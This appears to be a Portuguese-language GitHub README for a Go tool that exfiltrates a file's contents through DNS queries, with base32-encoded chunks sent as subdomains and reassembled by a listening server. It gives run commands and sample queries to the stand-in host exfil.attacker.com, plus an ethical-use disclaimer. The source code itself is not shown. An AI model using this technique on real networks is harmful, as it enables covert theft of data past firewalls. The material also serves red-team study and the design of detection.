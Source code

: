 
# 🧬 dns-exfil-go

[![Uso Ético](https://img.shields.io/badge/uso-educacional-red)](#)  
Ferramenta escrita em Go para **exfiltração de dados via requisições DNS**, utilizando codificação base32 e fragmentação em subdomínios.

---

## 📌 Visão Geral

Este projeto simula uma técnica avançada usada por agentes maliciosos para **vazar dados através de requisições DNS**, contornando firewalls e bloqueios de HTTP/HTTPS. O cliente lê um arquivo, fragmenta, codifica e envia cada pedaço como subdomínio. O servidor intercepta as queries DNS, reagrupa os pedaços e reconstrói o conteúdo original.

---

## ⚙️ Estrutura do Projeto

```

dns-exfil-go/
├── client.go           # Cliente que exfiltra um arquivo via DNS
├── server.go           # Servidor DNS que intercepta e reconstrói os dados
├── utils.go            # Funções auxiliares (base32 e chunking)
├── LICENSE             # Licença MIT
└── README.md           # Este arquivo

```

---

## 🔁 Como Funciona

1. O cliente lê um arquivo local (`data.txt`) e divide o conteúdo em pedaços.
2. Cada pedaço é codificado em Base32.
3. É criada uma query DNS do tipo A com o formato:  
```

\<chunk\_base32>.\<session\_id>.<ordem>.exfil.attacker.com

````
4. O servidor DNS escuta as requisições na porta 5353 (UDP), agrupa os chunks por sessão e reconstrói os dados ao detectar o chunk finalizador (`END_OF_SESSION`).

---

## 🚀 Como Usar

### ⚙️ Requisitos

- Go 1.16 ou superior
- Biblioteca: `github.com/miekg/dns` (instalada com `go mod tidy`)

---

### 🛰️ Rodar o Servidor

```bash
cd dns-exfil-go
go run server.go
````

* O servidor escuta por requisições na porta `5353/udp`.
* O arquivo reconstruído será salvo como: `exfiltrated_data_<session>.bin`

---

### 🧪 Rodar o Cliente

```bash
go run client.go
```

* O cliente cria um arquivo de teste (`data.txt`), lê, fragmenta e envia via DNS.
* Os dados são enviados para `127.0.0.1:5353` com domínio base `exfil.attacker.com` (configure conforme seu setup).

---

## 🔐 Exemplo de Requisição DNS Enviada

```
U3RyaW5nMQ.session42.0.exfil.attacker.com
U3RyaW5nMg.session42.1.exfil.attacker.com
RU5EX09GX1NFU1NJT04.session42.2.exfil.attacker.com
```

---

## 🧯 Aviso Ético

> Esta ferramenta foi criada **exclusivamente para fins educacionais e de pesquisa em segurança**.
> Qualquer uso não autorizado, especialmente em sistemas que você não possui ou não tem permissão explícita para testar, é ilegal.
> Os autores não se responsabilizam por qualquer uso indevido deste código.

---

## 🧠 Referências Técnicas

* [Red Teaming with DNS Exfiltration](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/data-exfiltration-over-dns)
* [miekg/dns - Go DNS lib](https://github.com/miekg/dns)
* [Base32 Encoding RFC 4648](https://datatracker.ietf.org/doc/html/rfc4648)

---

## 🧑‍💻 Autor

**Felipe Gonçalves Costa**
Especialista em Segurança Ofensiva · Bug Hunter · Exploit Developer
[GitHub](https://github.com/SEU_USUARIO_AQUI) • [LinkedIn](https://linkedin.com/in/felipe-gonçalves-costa-b26b72346)

---

## 📄 Licença

Distribuído sob licença [MIT](LICENSE).

